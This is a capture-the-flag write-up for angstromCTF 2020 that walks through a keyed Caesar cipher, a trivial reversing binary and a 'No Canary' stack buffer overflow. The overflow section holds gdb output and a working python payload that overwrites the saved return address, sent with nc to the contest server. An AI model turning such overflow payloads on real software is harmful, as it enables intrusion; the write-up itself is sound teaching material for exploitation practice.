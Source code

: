 # ångstromCTF 2020
![ångstromCTF 2020](angstromCTF2020.png)

ångstromCTF 2020 was really a great competition and we as [**P1rates**](https://2020.angstromctf.com/teams/6525) team enjoyed it and learned a lot, I participated as **T1m3-m4ch1n3** and Here's my writeup about what i solved.

## Challenges

| Title                              | Category                        | Score |
| ---------------------------------- |:-------------------------------:| -----:|
|    [Keysar](#Keysar)               |   Crypto                        | 40    |
|    [No Canary](#no-canary)         |   Binary Exploitation           | 50    |
|    [Revving Up](#revving-up)       |   Reversing                     | 50    |
|    [Inputter](#inputter)           |   Misc                          | 100   |
|    [msd](#msd)                     |   Misc                          | 140   |

---

## Keysar
#### Crypto (40 points)


### Description:
> **Hey! My friend sent me a message... He said encrypted it with the key ANGSTROMCTF.<br>
> He mumbled what cipher he used, but I think I have a clue.<br>
> Gotta go though, I have history homework!!<br>
> agqr{yue_stdcgciup_padas}**

> *Hint: Keyed caesar, does that even exist??*

### solution:

Well, as it's obvious from the title it has something to do with "Ceaser Cipher" and as the hint says "Keyed Ceaser" so i used this [site](http://rumkin.com/tools/cipher/caesar-keyed.php) to decrypt the flag given the key provided and BOOM! we got the flag!

Flag: ``` actf{yum_delicious_salad} ```

---

## No Canary
#### Binary Exploitation (50 points)


### Description:
> **Agriculture is the most healthful, most useful and most noble employment of man.<br>
> —George Washington<br><br>
> Can you call the flag function in this [program](No%20Canary/no_canary) ([source](No%20Canary/no_canary.c))? Try it out on the shell server at /problems/2020/no_canary or by connecting with nc shell.actf.co 20700.**

> *Hint: What's dangerous about the gets function?*

### solution:

The answer for the hint is simple .. It's "overflow"! .. gets function doesn't restrict the user input length and hence we can make an overflow given the address of flag() function to read the flag.txt!

So to get the address of flag() function we will use gdb
```
$ gdb no_canary
(gdb) set disassembly-flavor intel
(gdb) info func
0x0000000000401000  _init
0x0000000000401030  puts@plt
0x0000000000401040  setresgid@plt
0x0000000000401050  system@plt
0x0000000000401060  printf@plt
0x0000000000401070  gets@plt
0x0000000000401080  getegid@plt
0x0000000000401090  setvbuf@plt
0x00000000004010a0  _start
0x00000000004010d0  _dl_relocate_static_pie
0x00000000004010e0  deregister_tm_clones
0x0000000000401110  register_tm_clones
0x0000000000401150  __do_global_dtors_aux
0x0000000000401180  frame_dummy
0x0000000000401186  flag
0x0000000000401199  main
0x00000000004012e0  __libc_csu_init
0x0000000000401350  __libc_csu_fini
0x0000000000401358  _fini
```

Nice! we got the address **0x00401186** .. Now we know that name variable is of size 20 so we need a payload > 20 to reach to rip register and put the address of flag() function in there.

We need to see the main function:
```
(gdb) disas main
   .
   .
   0x00000000004012ba <+289>:	call   0x401070 <gets@plt>
   0x00000000004012bf <+294>:	lea    rax,[rbp-0x20]
   .
   .
```
And then setting a breakpoint at **0x004012bf** right after call gets() function instruction:
```
(gdb) b *0x004012bf
```
We'll run the program using a payload of 20 "A"s letter:
```
(gdb) r <<< $(python -c "print 'A' * 20")
```
Now we hit the breakpoint, We also need to know the saved rip register value so we can detect it on the stack and optimize our payload to target it:
```
(gdb) info frame
Stack level 0, frame at 0x7fffffffe590:
 rip = 0x4012bf in main; saved rip = 0x7ffff7a5a2e1
.
.
```
So our target is **0x7ffff7a5a2e1** .. Now by examining the stack:
```
(gdb) x/100x $rsp
0x7fffffffe560:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe570:	0x41414141	0x00007f00	0x00000000	0x00002af8
0x7fffffffe580:	.0x004012e0	0x00000000	0xf7a5a2e1	0x00007fff
.
.
```
It's so clear that **0xf7a5a2e1	0x00007fff** is the saved rip register in little-endian and if we can replace it with the flag() function address which is **0x0000000000401186** we can change the flow of the program to print the flag!

so our final payload will be:
```
(gdb) r <<< $(python -c "print 'A' * 40 + '\x86\x11\x40\x00\x00\x00'")
```
That was locally, and by applying it to **nc shell.actf.co 20700** it should give us the flag:
```
$ python -c "print 'A' * 40 + '\x86\x11\x40\x00\x00\x00' | nc shell.actf.co 20700
```

Flag: ``` actf{that_gosh_darn_canary_got_me_pwned!} ```

---

## Revving Up
#### Reversing (50 points)

### Description:
> **Clam wrote a [](program) for his school's cybersecurity club's first rev lecture!<br>
> Can you get it to give you the flag?<br>
> You can find it at /problems/2020/revving_up on the shell server, which you can access via the "shell" link at the top of the site.**

> *Hint: Try some google searches for "how to run a file in linux" or "bash for beginners".

### solution:
We go to the shell server and to the directory given we'll find 2 files flag.txt and revving_up And by: ``` $ file revving_up ``` we know that it's ELF 64-bit and by running it:
```
$ ./revving_up
Congratulations on running the binary!
Now there are a few more things to tend to.
Please type "give flag" (without the quotes).

```
After we type "give flag":
```
give flag
Good job!
Now run the program with a command line argument of "banana" and you'll be done!
```
So we do as it's said:
```
$ ./revving_up banana
Congratulations on running the binary!
Now there are a few more things to tend to.
Please type "give flag" (without the quotes).
give flag
Good job!
Well I think it's about time you got the flag!
actf{g3tting_4_h4ng_0f_l1nux_4nd_b4sh}
```
So easy, right ?!!

Flag: ``` actf{g3tting_4_h4ng_0f_l1nux_4nd_b4sh} ```

---
